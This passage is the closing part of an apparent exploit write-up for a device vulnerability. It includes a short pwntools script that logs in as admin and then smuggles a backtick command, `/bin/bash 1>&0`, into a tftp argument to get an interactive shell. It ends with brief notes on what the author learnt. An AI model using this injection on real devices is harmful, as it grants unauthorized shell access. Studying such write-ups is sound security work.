sla =io.sendlineafter
sa = io.sendafter

sla(b"Login: ", b"admin")
sla(b"Password: ", newpassword.encode())

sla(b"> ", b"tftp `/bin/bash 1>&0`")

io.interactive()
```

Result:


## 4. What I learnt
-   Setup environment for debugging
-   A little bit of ARM
-   Mindset how to dev nday
I believe that's all I can learn from it :)). The end!

